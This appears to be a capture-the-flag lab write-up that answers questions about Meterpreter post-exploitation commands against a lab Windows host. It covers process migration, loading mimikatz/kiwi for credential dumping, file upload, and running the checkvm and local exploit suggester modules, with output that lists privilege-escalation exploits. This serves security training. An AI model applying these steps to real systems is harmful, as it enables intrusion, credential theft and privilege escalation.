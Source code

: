 2.  Let's go ahead and move into the spool process or at least attempt to! What command do we use to transfer ourselves into the process? This won't work at the current time as we don't have sufficient privileges but we can still try! 
```
migrate
```
3.  Well that migration didn't work, let's find out some more information about the system so we can try to elevate. What command can we run to find out more information regarding the current user running the process we are in?
```
getuid
```
4. How about finding more information out about the system itself?
```
sysinfo
```
5. This might take a little bit of googling, what do we run to load mimikatz (more specifically the new version of mimikatz) so we can use it? 
```
load kiwi <--for new version of mkatz

load mimikatz <--for older version
```
6. 	Let's go ahead and figure out the privileges of our current user, what command do we run?
```
getprivs
```
7.  What command do we run to transfer files to our victim computer? 
```
upload
```
8. How about if we want to run a Metasploit module?
```
run
```
9.  A simple question but still quite necessary, what command do we run to figure out the networking information and interfaces on our victim? 
```
ipconfig //windows machines
ifconfig //nix* machines
```
10. Let's go ahead and run a few post modules from Metasploit. First, let's run the command `run post/windows/gather/checkvm`. This will determine if we're in a VM, a very useful piece of knowledge for further pivoting.
```
no answer needed

meterpreter > run post/windows/gather/checkvm

[*] Checking if DARK-PC is a Virtual Machine .....
[+] This is a Xen Virtual Machine
```
11. Next, let's try: `run post/multi/recon/local_exploit_suggester`. This will check for various exploits which we can run within our session to elevate our privileges. Feel free to experiment using these suggestions, however, we'll be going through this in greater detail in the room `Ice`.
```
no answer needed

meterpreter > run post/multi/recon/local_exploit_suggester 

[*] 10.10.234.208 - Collecting local exploits for x86/windows...
[*] 10.10.234.208 - 31 exploit checks are being tried...
[+] 10.10.234.208 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.234.208 - exploit/windows/local/ikeext_service: The target appears to be vulnerable.
[+] 10.10.234.208 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
```